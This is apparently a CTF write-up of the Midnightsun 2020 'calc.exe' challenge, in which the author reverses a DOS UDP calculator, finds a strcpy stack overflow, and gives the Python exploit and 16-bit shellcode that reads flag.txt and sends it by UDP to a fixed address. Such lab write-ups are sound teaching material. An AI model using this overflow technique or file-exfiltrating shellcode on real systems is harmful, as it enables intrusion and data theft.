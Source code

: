```yaml
---
layout: post
category: Pwn
title: Midnightsun CTF 2020 - calc.exe
tags: 
    - kowu
---
```


# Challenge Description / Setup

```
During some renovations, we found an ancient computer with this VM hidden behind a wall. We believe it is the earliest example of networked computation. (QEMU with PCNET network)
```
[Download](/assets/bin/floppy.img)

So we got a DOS floppy image. The Image contained the following files:
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
1991-11-11 05:00:02 .RHS.        33430        33792  IO.SYS
1991-11-11 05:00:02 .RHS.        37394        37888  MSDOS.SYS
1991-11-11 05:00:02 ....A        47845        48128  COMMAND.COM
2020-10-01 20:13:50 ....A        32769        33280  DHCP.EXE
2020-10-01 20:13:50 ....A         6751         7168  PCNTPK.COM
2020-10-01 20:13:50 ....A        55816        56320  calc.exe
2020-10-01 20:13:50 ....A           37          512  flag.txt
2020-10-01 20:13:50 ....A           77          512  AUTOEXEC.BAT
2020-10-03 10:58:54 ....A          247          512  MTCP.CFG
1999-11-17 17:32:02 ....A            0            0  BOOT500
------------------- ----- ------------ ------------  ------------------------
2020-10-03 10:58:54             214366       218112  10 files

```

Autoexec would start DHCP to run a DHCP server, then the challenge "calc.exe" is executed. It turns out that [mTCP](http://www.brutman.com/mTCP/) was used as a TCP stack. Calc.exe would then listen on UDP port 8888 for simple equations of the format `number operand number` and echo the result back (via network).


First I spent some time getting QEMU and NAT working. I have no clue of networking and just followed Instructions at [https://wiki.qemu.org/Documentation/Networking/NAT]. Finally I ended up using the following combination:

`sudo qemu-system-i386 -drive file=floppy.img,if=floppy,format=raw -m 64 -boot a -netdev tap,id=mynet0 -device pcnet,netdev=mynet0 --nographic`

It probably would be way easier (and does not require root) to just forward UDP port 8888, but I did the setup before reversing, and before looking into the provided openvpn conf, where the ports would have been documented.

Server:
```
...
DHCP request sent, attempt 1: Offer received, Acknowledged

Good news everyone!

IPADDR = 192.168.53.76
NETMASK = 255.255.255.0
GATEWAY = 192.168.53.1
NAMESERVER = 192.168.53.1
LEASE_TIME = 3600 seconds

Settings written to 'MTCP.CFG'
Sending [1337 + 9774 = 11111]


```

Client:
```
user@KARCH ~ % nc -u 192.168.53.76 8888
1337+9774
1337 + 9774 = 11111
```

# Reversing / Bug Hunting

I reversed the binary using Ghidra. By comparing characteristic strings in the binary and correlating them with exmaple source from the mTCP project, I could locate the mainloop at `1000:09c1`. From there it was easy to locate the UDP packet handler at `1000:0afa`.

decompiled handler:
```c
void __fastcall_member udp_handler(byte *packet,char *header)

{
  void *unaff_DI;
  void *unaff_SS;
  
  parsepkt((char *)(packet + 0x2a));
  dbg_print_sending((char *)0x2b5,(void *)0x1aa8,(void *)0xbfc);
  sendUDP((uint)(packet + 0x1a),(int)header,0x200,0xbd2,unaff_SS,1);
  Buffer_free(unaff_DI);
  return;
}
```

the bug is an obvious stackoverflow via strcpy in the parsepkt function, a long input would result in a hang:
```c
void __fastcall_member parsepkt(char *input)

{
  char cVar1;
  char *buffer_ptr;
  undefined2 unaff_SS;
  char buffer [20];
  
  strcpy(buffer,input);
  buffer_ptr = buffer;
  while( true ) {
    cVar1 = *buffer_ptr;
    if (cVar1 == '\0') {
      return;
    }
    if ((((cVar1 == '+') || (cVar1 == '-')) || (cVar1 == '*')) || (cVar1 == '/')) break;
    buffer_ptr = buffer_ptr + 1;
  }
  *buffer_ptr = '\0';
  buffer_ptr = buffer_ptr + 1;
  atoi(buffer);
  atoi(buffer_ptr);
  FUN_1000_3a65(0xbfc);
  return;
}
```
Now the presented decompiled source looks quite nice, but for this I had to teach Ghidra some new 16bit calling conventions (like microsoft 16bit fastcall), as mTCP was written in C++. This worked surprisingly easy, some existing specifications can be found in `Ghidra/Processors/x86/data/languages/x86-16.cspec`. I think I did't quite get them right, but sufficiently well to understand what's going on. It should be `AX, BX, CX, DX, ES, stack...`, return values in `AX, DX`.

# Debugging

To debug, I attached radare (`r2 -a x86 -b 16 -D gdb gdb://localhost:1234`) / gdb (`gdb -ex "target remote localhost:1234" -ex "set architecture i8086"`) to qemus gdb server (add `-S -s` options), and placed a breakpoint at `b *0x1459b`. I stumbled upon some strange behaviour. The breakpoint was hit, and stepping "worked", but somehow the IP was completely off. It turns out this is because both debuggers don't take care of code segments. I stumbled upon some GDB script at [https://ternet.fr/gdb_real_mode.html], which allowed at least for some more comfortable single stepping in gdb. In r2, i just manually calculated addresses e.g. by `s cs * 16 + eip`.


# Shellcode Execution

Next I found some simple retf ropgadget which allowed me to set ip and cs, so that cs:ip points to the stack (under my control). Shellcode execution :)
```python
# bp di si cx bx ip (0x0a40 = retf) | ip cs | 4X fill | shellcode
r.send(b'+' * 24 + struct.pack(
    '<12H',
    0x1111, 0x2222, 0x3333, 0x4444, 0x5555, 0x0a40,
    0x2710, 0x202e, 0x5858, 0x5858, 0x5858, 0x5858
) + shellcode)
```

# Shellcode

Now it is "easy". I used the 0x21 DOS intterrupt [https://www.beck-ipc.com/api_files/scxxx/dosemu.htm] to open the flag file, and read the flag into memory. Next I prepared the arguments to call the already existing `int8_t Udp::sendUdp( IpAddr_t host, uint16_t srcPort, uint16_t dstPort, uint16_t payloadLen, uint8_t *data, uint8_t preAlloc)` function, to echo back the flag via udp. I filled out all the important arguments with static data (static ip address, 1337 src / dst port), and let wireshark listen for the resulting UDP packet. Less work for me :)

```asm
org 0
bits 16

; open flag.txt
xor ax, ax;
push ax;
push 0x7478;
push 0x742e;
push 0x6761;
push 0x6c66;
mov dx, sp;
xor ax, ax;
mov ah, 0x3d;
int 0x21;

; read file
mov cx, 0x111;
mov bx, ax;
mov dx, 0xbfc;
mov ah, 0x3f;
int 0x21;

; prepare 10.8.10.2
mov al, 10; ; dst ip
mov ah, 2;
push ax;
mov al, 10;
mov ah, 8;
push ax;
mov bp, sp;

xor ax, ax;  ; use buffer
inc ax;
push ax;

push ds; ; buffer
push 0xbd2;

push 0x201; ; length

; jump
push 0x13ab; ;cs
push 0x0b3b; ;ip

mov ax, bp;   ; ptr to 10.8.10.2
mov dx, ds;
mov cx, 1337; ; dst port
mov bx, 1337; ; src port

retf
```

![image](http://blog.redrocket.club/assets/img/calc_wireshark.png)
